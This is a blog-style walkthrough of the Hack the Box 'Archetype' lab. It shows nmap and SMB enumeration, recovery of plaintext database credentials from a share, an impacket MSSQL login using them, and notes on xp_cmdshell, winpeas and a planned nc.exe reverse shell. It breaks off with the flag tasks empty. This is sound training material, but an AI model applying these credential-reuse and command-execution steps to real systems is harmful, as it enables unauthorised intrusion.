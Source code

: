 ```yaml
---
title: 'HTB Starting Point - Tier 2'
description: 'Hack the Box Starting Point'
pubDate: 'Dec 13 2024'
heroImage: '/blog-placeholder-1.jpg'
---
```


Topics covered:  
* XXE
* IDOR
* Log4J
* Cookie manipulation
* PrivEsc
* LXD for privileged filesystem access


## Archetype
*MSSQL, SMB, PS1, RCE*

**Task 1**  
Which TCP port is hosting a database server?

```bash
kali$ nmap -sV $TARGET --min-rate=2000

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Looks like the answer is 1433.

From the list above:
* 135: RPC. (Low level and insecure network comms to invoke a remote procedure)
* 139: Typically used by SMB to communicate with old devices. This is for SMB over NBT (NetBIOS over TCP/IP)
* 445: SMB server

This [stack overflow answer](https://superuser.com/a/694480) provides a great summary of the relationship between SMB and NetBIOS. In short: SMB and NetBIOS are different protocols, however to support legacy Windows systems, SMB can use the NetBIOS API to talk with older machines. See the diagram in the link.


**Task 2**  
What is the name of the non-Administrative share available over SMB?

```bash
kali$ smbclient -L $TARGET -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Looks like it is `backups`. (N.b. admin shares typically have a `$` suffix)


**Task 3**  
What is the password identified in the file on the SMB share?

```bash
kali$ smbclient //$TARGET/backups

smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
		5056511 blocks of size 4096. 2522480 blocks available

smb: \> print prod.dtsConfig
NT_STATUS_ACCESS_DENIED opening remote file prod.dtsConfig

smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

No permissions were allowed to print the file, however I could use get instead. By reading the file contents, we find this spicy connection string with these credentials `ARCHETYPE\sql_svc; M3g4c0rp123`

```xml
 <ConfiguredValue>
    Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;
</ConfiguredValue>
 ```


**Task 4**  
What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

Impacket is designed to deal with network packets, "providing low-level programmatic access". Looking through the [repo](https://github.com/fortra/impacket/tree/master), I can see `mssqlshell.py` and `mssqlattack.py` example files. The attack utilises the shell script. (N.b. These are classes, not scripts! :facepalm:). Looks like the script I'm after is `mssqlclient`. In Kali, this is already installed and on the path. It can be executed by `impacket-mssqlclient`.

```bash
kali$ impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@$TARGET -windows-auth
```

**Task 5**  
What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

[`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)


**Task 6**  
What script can be used in order to search possible paths to escalate privileges on Windows hosts?

`winpeas` apparently :shrug:


**Task 7**  
What file contains the administrator's password?

At this point, I can execute commands via `xp_cmdshell`. It seems pertinent to create a reverse shell. This will allow us a more stable connection adn remove the need to type `xp_cmdshell` on every line.

*From a quick geeze through the writeup, it looks like there is a common pattern to download certain executables to the target machine - this includes things like nc.exe for the reverse shell, and winpeas for the privesc. We'll come back to the next time*

**Task 8**  
Submit user flag


**Task 9**  
Submit root flag
